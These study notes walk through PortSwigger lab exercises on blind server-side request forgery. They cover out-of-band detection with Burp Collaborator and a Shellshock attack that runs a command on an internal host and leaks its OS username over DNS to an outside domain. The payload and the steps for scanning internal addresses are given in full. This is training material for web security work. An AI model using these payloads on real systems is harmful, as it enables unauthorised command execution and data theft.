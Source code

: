 ## Blind SSRF
The most reliable way to detect blind SSRF vulnerabilities is using out-of-band techniques (OAST)
This involves attempting to:
- trigger an HTTP request to an external system that you control
- and monitoring for network interactions with that system.

The easiest and most effective way to use out-of-band techniques is using -->  Collaborator

### Blind SSRF with out-of-band detection
1. Visit a product, intercept the request in Burp Suite, and send it to Burp Repeater.
2. Go to the Repeater tab. Select the Referer header, 
   right-click and select "Insert Collaborator Payload" to replace the original domain with a Burp Collaborator generated domain.
3. Send the request.
1. Go to the Collaborator tab, and click "Poll now".
2. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
### Blind SSRF with Shellshock exploitation
- In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
- Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
- Browse the site.
- Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
- Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
- Send the request to the product page to Burp Intruder.
- Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
  `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`
- Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
- Click "Clear §", change the Referer header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number `1`), click "Add §".
- Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
- Click "Start attack".
- When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind [SSRF attack](https://portswigger.net/web-security/ssrf). The name of the OS user should appear within the DNS subdomain.
- To complete the lab, enter the name of the OS user
  
## Finding hidden attack surface for SSRF vulnerabilities
Many server-side request forgery vulnerabilities are easy to find:
bc -->  the app's normal traffic involves request parameters containing full URLs. 
